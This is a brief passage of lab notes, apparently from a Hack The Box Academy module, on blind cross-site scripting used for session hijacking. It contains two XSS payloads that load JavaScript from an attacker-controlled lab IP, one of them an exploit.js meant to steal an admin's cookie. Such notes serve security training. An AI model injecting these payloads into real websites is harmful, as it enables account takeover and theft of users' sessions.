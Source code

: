![xss-blind-injection-identified](/images/xss-blind-injection-identified.png)  

>Successful payload identified as, `'><script src=http://10.10.15.41></script>`  

## Session Hijacking  

>Loading a Remote Exploit JavaScript Script payload. [Session Hijacking](https://academy.hackthebox.com/module/103/section/1008)  

```
'><script src=http://10.10.15.41/exploit.js></script>
```  

>Submitting the blind XSS injection to steal cookie of the admin moderator.  
